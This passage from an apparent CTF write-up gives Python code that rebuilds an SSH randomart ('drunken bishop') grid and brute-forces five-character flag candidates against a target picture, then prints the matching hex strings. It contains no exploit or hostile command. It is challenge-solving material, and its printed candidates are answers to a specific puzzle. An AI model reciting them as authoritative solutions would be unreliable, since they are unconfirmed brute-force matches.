      if c & 1 == 0:
        if i != 0 and i % 0x12 != 0: # 一番最初でなく、かつ改行箇所の直後でない
          i -= 1
      else:
        if i == 0 or i % 0x12 != 0x10: # 一番最初か、または改行箇所でない
          i += 1

      # y
      if c & 2 == 0:
        if i > 0x11: # 最初の行でない
          i -= 0x12
      else:
        if i < 0x8f: # 最後の行でない
          i += 0x12

      c >>= 2
      res[i] += 1

  return res, i

table = " p4{krule_ctf}"
def arr_to_str(a, k):
  res = ''

  for i in range(162):
    if a[i] > 0xd:
      res += '^'
    elif i == 0x50:
      res += 'S'
    elif i == k:
      res += 'E'
    else:
      res += table[a[i]]

  return '\n'.join(re.findall(r'.{18}', res))

s = """        4 {4pp   
       p {k4{ E  
      p 44p{ p   
       4 p       
        S        
                 
                 
                 
                 """.replace(' ', '').replace('\n', '')

for x in itertools.product('0123456789abcdefghijklmnopqrstuvwxyz', repeat=5):
  tmp = '70347b' + binascii.hexlify(''.join(x).encode()).decode() + '7d'
  m, i = convert(binascii.unhexlify(tmp))
  if arr_to_str(m, i).replace(' ', '').replace('\n', '') == s:
    print(tmp)
```

```
$ python test.py
70347b34716932667d
70347b34716962367d
70347b34716962637d
70347b61716932667d
70347b61716962367d
70347b61716962637d
70347b71693266617d
70347b71696236617d
70347b71696263617d
70347b74693266317d
70347b74696236317d
70347b74696263317d
```